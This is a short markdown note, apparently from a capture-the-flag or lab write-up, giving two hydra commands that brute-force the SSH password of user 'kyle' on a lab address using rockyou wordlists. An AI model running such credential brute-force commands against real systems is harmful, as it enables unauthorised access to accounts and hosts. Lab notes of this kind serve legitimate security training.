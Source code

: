 ## Brouteforcing with Hydra

```
$ hydra -l kyle -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt ssh://10.10.11.101 -f -t 64 -VV

$ hydra -l kyle -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt 10.10.11.101 ssh
```

Note: If stopped, hidra session will be saved/
